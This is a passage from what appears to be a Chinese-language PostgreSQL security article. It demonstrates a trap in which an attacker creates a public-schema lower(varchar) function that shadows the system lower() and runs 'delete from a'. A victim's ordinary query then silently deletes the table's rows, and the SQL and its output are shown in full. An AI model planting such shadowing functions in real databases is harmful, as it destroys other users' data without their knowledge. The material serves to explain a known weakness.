 lower系统函数，成为了一个陷阱，因为它不是varchar参数类型，用了隐式转换。  
  
```  
pp=> \df lower  
                          List of functions  
   Schema   | Name  | Result data type | Argument data types |  Type  
------------+-------+------------------+---------------------+--------  
 pg_catalog | lower | anyelement       | anyrange            | normal  
 pg_catalog | lower | text             | text                | normal  
(2 rows)  
```  
  
攻击者b:  
  
写一个函数，放到public，并且避免隐式转换.  
  
```  
create or replace function lower(varchar) returns void as $$  
declare  
begin  
  raise notice 'haha, delete your data';  
  delete from a;  
end;  
$$ language plpgsql strict SECURITY INVOKER;  
```  
  
攻击者没有删除A表记录的权限，所以自己调用会报错。  
  
但是这个陷阱是让a用户去踩的，我们看看A用户的调用。  
  
```  
postgres=> select lower('a'::varchar);  
NOTICE:  haha, delete your data  
ERROR:  permission denied for relation a  
CONTEXT:  SQL statement "delete from a"  
PL/pgSQL function lower(character varying) line 5 at SQL statement  
```  
  
5、中招  
  
普通用户，调用查询SQL，就会中招。  
  
```  
postgres=> \c postgres a  
You are now connected to database "postgres" as user "a".  
postgres=> select id,lower(info) from a;  
NOTICE:  haha, delete your data  
 id | lower  
----+-------  
  1 |  
(1 row)  
  
postgres=> select * from a;  
 id | info  
----+------  
(0 rows)  
```  
  